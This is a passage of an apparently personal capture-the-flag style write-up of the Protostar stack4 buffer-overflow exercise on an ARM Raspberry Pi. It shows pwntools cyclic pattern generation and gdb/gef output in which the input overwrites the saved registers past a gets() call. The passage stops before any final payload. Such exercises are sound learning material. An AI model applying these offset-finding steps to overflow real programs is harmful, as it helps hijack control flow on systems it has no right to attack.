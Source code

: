 ```c
Breakpoint 1 at 0x10470: file stack4.c, line 12.

```

In this challenge I will use `pwn cyclic` from `pwntools` to solve it, `pwn cyclic 80` for example will generate an unique string of 80 chars.  
Let's generate our string which we will us as user input
```c
pi@raspberrypi:~/protostar/stack4 $ pwn cyclic 80
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
```
Once we have the string we can go ahead with out analysis on `gdb`

```c
Breakpoint 1 at 0x10470: file stack4.c, line 12.
gef➤  r
Starting program: /home/pi/protostar/stack4/stack4
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Breakpoint 1, 0x00010470 in main (argc=0x1, argv=0x7efff594) at stack4.c:12
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x7efff400  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$r1  : 0x0       
$r2  : 0x1       
$r3  : 0x0       
$r4  : 0x0       
$r5  : 0x00010480  →  <__libc_csu_init+0> push {r4,  r5,  r6,  r7,  r8,  r9,  r10,  lr}
$r6  : 0x00010344  →  <_start+0> mov r11,  #0
$r7  : 0x0       
$r8  : 0x0       
$r9  : 0x0       
$r10 : 0x76fff000  →  0x00030f44  →  0x00000000
$r11 : 0x7efff444  →  "raaasaaataaa"
$r12 : 0xfbad2288
$sp  : 0x7efff3f8  →  0x7efff594  →  0x7efff6e1  →  "/home/pi/protostar/stack4/stack4"
$lr  : 0x61616174 ("taaa"?)
$pc  : 0x00010470  →  <main+32> mov r3,  #0
$cpsr: [negative ZERO CARRY overflow interrupt fast thumb]
──────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x7efff3f8│+0x0000: 0x7efff594  →  0x7efff6e1  →  "/home/pi/protostar/stack4/stack4"	 ← $sp
0x7efff3fc│+0x0004: 0x00000001
0x7efff400│+0x0008: "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"	 ← $r0
0x7efff404│+0x000c: "baaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaana[...]"
0x7efff408│+0x0010: "caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoa[...]"
0x7efff40c│+0x0014: "daaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapa[...]"
0x7efff410│+0x0018: "eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqa[...]"
0x7efff414│+0x001c: "faaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaara[...]"
───────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
      0x10464 <main+20>        sub    r3,  r11,  #68	; 0x44
      0x10468 <main+24>        mov    r0,  r3
      0x1046c <main+28>        bl     0x10308 <gets@plt>
 →    0x10470 <main+32>        mov    r3,  #0
      0x10474 <main+36>        mov    r0,  r3
      0x10478 <main+40>        sub    sp,  r11,  #4
      0x1047c <main+44>        pop    {r11,  pc}
      0x10480 <__libc_csu_init+0> push   {r4,  r5,  r6,  r7,  r8,  r9,  r10,  lr}
      0x10484 <__libc_csu_init+4> mov    r7,  r0
─────────────────────────────────────────────────────────────────────────────────────────── source:stack4.c+12 ────
      7	 
```